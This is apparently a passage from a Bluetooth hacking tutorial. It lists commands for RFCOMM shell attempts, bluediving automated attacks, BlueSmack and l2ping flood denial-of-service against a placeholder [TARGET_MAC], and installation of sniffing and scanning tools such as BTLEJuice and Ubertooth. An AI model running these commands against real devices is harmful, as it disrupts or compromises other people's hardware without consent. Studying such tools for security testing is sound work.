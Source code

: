 **Definition**: Gaining shell access through Bluetooth vulnerabilities.

\# Attempt RFCOMM connection\
rfcomm connect 0 \[TARGET_MAC\] 1

\# Use bluediving for automated attacks\
python bluediving.py -a \[TARGET_MAC\]

### **4. BlueSmacking (Bluetooth DoS)**

\# L2CAP ping flood\
sudo l2ping -i hci0 -s 600 -f \[TARGET_MAC\]

\# Using BlueSmack tool\
python bluesmack.py \[TARGET_MAC\]

## **Bluetooth Hacking Tools and Frameworks**

### **Essential Tools**

#### **1. BlueZ Suite (Built-in Linux tools)**

\# Install BlueZ tools\
sudo apt-get install bluez bluez-tools

\# Additional utilities\
sudo apt-get install libbluetooth-dev

#### **2. Specialized Bluetooth Hacking Tools**

\# Install Bluetooth hacking toolkit\
sudo apt-get install bluetooth-toolkit

\# Bluelog - Bluetooth device logger\
sudo apt-get install bluelog

\# Blueranger - Bluetooth range finder\
git clone
\[https://github.com/hackgnar/blueranger\](https://github.com/hackgnar/blueranger)\
cd blueranger && make

\# Bluepot - Bluetooth honeypot\
git clone
\[https://github.com/andrewmichaelsmith/bluepot\](https://github.com/andrewmichaelsmith/bluepot)

\# Btscanner - Bluetooth device scanner\
sudo apt-get install btscanner

#### **3. Advanced Frameworks**

\# BTLEJuice - Bluetooth Low Energy interception\
npm install -g btlejuice

\# Ubertooth for Bluetooth sniffing\
\# Requires Ubertooth hardware\
ubertooth-btle -f -t \[TARGET_MAC\]
